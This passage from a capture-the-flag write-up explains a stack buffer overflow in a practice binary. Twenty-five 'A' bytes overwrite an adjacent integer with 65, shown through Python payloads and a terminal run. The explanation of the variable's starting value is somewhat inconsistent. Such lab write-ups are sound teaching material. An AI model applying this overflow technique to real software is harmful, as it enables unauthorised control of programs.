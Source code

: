To overwrite `num`, we need:
1. 24 bytes to fill the buffer and padding
2. The value we want to write to `num` (65 or 0x41)

## Exploitation

### Understanding the Overflow

```
Input: "AAAAAAAAAAAAAAAA" (16 A's)
Result: Fills buffer, num unchanged

Input: "AAAAAAAAAAAAAAAAAAAAAAAA" (24 A's)
Result: Fills buffer + padding, num = 0x00000000

Input: "AAAAAAAAAAAAAAAAAAAAAAAA" + 'A' (25 A's)
Result: Fills buffer + padding, num = 0x00000041 (65 in decimal!)
```

### Why 25 'A's Works

When we send 25 'A' characters:
- First 16 'A's fill the `input` buffer
- Next 8 'A's fill the padding between buffer and `num`
- The 25th 'A' (ASCII value 0x41 = 65) overwrites the first byte of `num`
- Since `num` was 0x40 (64), overwriting with 0x41 gives us exactly 65!

### Creating the Payload

We have two approaches:

#### Method 1: Using 'A' characters (Lucky coincidence!)
```bash
python3 -c "print('A' * 25)"
```
This works because 'A' has ASCII value 65 (0x41), which is exactly what we need!

#### Method 2: Explicit byte value
```python
payload = b'A' * 24  # Fill to reach num
payload += b'\x41'   # Write 65 to num
```

## Solution

### Local Testing
```bash
┌──(xuan㉿kali)-[~]
└─$ ./local-target
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA
num is 65
You win!
[Flag would be printed here if flag.txt exists]
```
